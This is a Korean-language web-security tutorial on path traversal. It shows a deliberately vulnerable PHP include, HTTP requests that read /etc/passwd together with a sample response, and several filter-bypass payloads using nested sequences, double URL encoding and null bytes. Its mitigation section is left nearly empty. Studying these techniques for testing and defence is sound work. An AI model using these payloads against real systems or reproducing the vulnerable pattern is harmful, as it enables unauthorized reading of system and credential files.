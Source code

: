 ```yaml
---
layout: single
title: Path Traversal
categories: Web-vuln
tag: [Path Traversal, web, web vulnerability, injection]
toc: true
author_profile: false
---
```

# Path Traversal 이란 무엇인가?

> ./(현재 디렉토리) 또는 ../(상위 디렉토리로 이동)를 나타내는 문자들이 제대로 필터링되지 않아 파일 시스템 API로 전달되어, 허용된 디렉토리가 아닌 숨겨진 디렉토리 및 파일에 대한 무단 access를 가능하게 하는 취약점이며, 보통 File 명과 같이 사용자의 입력값이 전달되어, 찾아오는 로직에서 많이 발견된다.

<hr>

- **Vulnerability Code**

```php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE'])) {
    $template = $_COOKIE['TEMPLATE'];
}
include "/home/users/phpguru/templates/" . $template;

인용 : https://en.wikipedia.org/wiki/Directory_traversal_attack
```

위와 같은 File을 가져오는 로직이 구성되어있다고 생각해보자. 그럼 사용자의 입력값이 include "/home/users/phpguru/templates/" . 뒤에 고스란히 이어붙여 진다. 이 때 디렉토리 이동 명령어가 필터링 되어 제거되지않고 적용된다면 어떻게 될까?
<br><br>

```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

```
HTTP/1.0 200 OK
Content-Type: text/html
Server: Apache

root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh 
daemon:*:1:1::/tmp: 
phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh
```

위와같이 passwd 파일을 탈취 될 수 있으며, 큰 피해로 이어질 수 있다.
<br><br>
이러한 취약점은 파일 경로에서 불러오는 경우와, API 요청을 통해 불러올 수도 있다.

```
/var/www/images/test.png/../../../etc/passwd

'''

https://insecure-test.com/findimage?filename=../../../etc/passwd
```

## 공격 표면

🌝 **<u>Path Traversal 취약점은 어떤 부분에서 나타나고 테스팅 해볼 수 있을까</u>** 
{: .notice--primary} 
<br>
<hr>
사용자의 요청이 서버내의 path로 연결되는 구간, API 요청에 의해 파일값을 불러오는 구간이 공격표면이 될 수 있다. 
<br>
./ 또는 ../ 와 같은 경로이동 문자열을 넣어봄으로써 응답값이 어떻게 돌아오는지 확인하면 Path Traversal 취약점이 존재하는지에 대한 유무 판단이 가능하다.

```
/var/www/images/test.jpg -> 200(ok)
/var/www/images/.test.jpg -> 200(ok)
/var/www/images/../images/test.jpg -> 200(ok)
```

하지만 위의 테스팅에서 200ok 를 받는다고 무조건 Path Traversal 취약점이 존재한다고 확신하기에는 불분명 하다.
<br>
이는 ./ 문자를 Path 그대로 받아들이는지 ./문자를 필터링하여 제거시켰는지에 대해 확실치 않기 때문이다.
<br>
이런 경우 ..//와 같이 ./가 제거되더라도 ..// → ./ 되기 때문에 테스팅해볼만하다.

```
/var/www/images/..//test.jpg
```

**<u>만약 위의 테스트 결과가 404(Not Found) 가 뜬다면 이는 ./ 문자열이 제거가 되지 않는다는것을 의미한다.  200 ok가 반환 되더라도, ./가 필터링 되어 ./가되거나 아니면 이러한 제거로직을 반복구성 해놓았을 가능성도 존재한다.</u>**

## Bypass - Path Traversal
### Basic Bypass

```
GET /image?filename=../../../etc/passwd 200 (ok)
```

경로 이동 문자열을 통해 파일 시스템 서버의 최상단으로 올라가 passwd파일을 추출한다.

### Traversal sequences blocking

./ ../ 와 같은 시퀀스를 차단하는 로직이 구현되어 있더라도, 파일 시스템이 절대경로를 통해 파일을 가져올 경우 경로 이동 문자열 없이 원하는 파일을 가져올 수 있다.

```
GET /image?filename=/etc/passwd HTTP/2 200 (ok)
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
```

### Traversal sequences blocking2

../ 시퀀스가 필터링 되어 차단되더라도 ….// 문자열을 입력했을 때 로직이 반복적으로 탐지하여 차단하는 경우가 아니라면 ../ 가 사라지고 ….// → ../가 남아 우회가능성이 존재한다.

```
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
GET /image?filename=....//....//....//etc/passwd HTTP/2 200 (ok)
```

### Traversal sequences blocking3

입력값 검증 후 제거하는 로직이 반복적으로 순회하도록 되어있을 경우, URL 인코딩 Double 인코딩
또는 비표준 인코딩 등을 사용하여 우회할 수 있다.

```
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2 200 (ok)
```

### 정해진 위치에서부터의 경로 탐색

개발자가 특정 파일을 찾기위해서는 개발자가 정해놓은 특정 위치에서부터 절대경로로 검색해야 찾을 수 있도록 설정해놨을 경우도 존재한다.

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
```

### 만약 파일시스템에서 특정 확장자로 끝나는지에 대한 검증 로직이 존재한다면?

null 바이트 문자를 이용하여 우회할 수 있다.

```
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2 200(ok)
```

<br><hr>
<div class="notice">
  <h4>이러한 진입점들을 잘 찾아내는것이 중요하다. 파일의 본문내용을 경로로 사용되는 부분도 존재하며, 요청값과 응답값을 잘 확인하자.</h4>
</div>
<hr>

# 대응 방안
1. 입력값에 대한 유효성 검사.
2. 

# Referance
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal
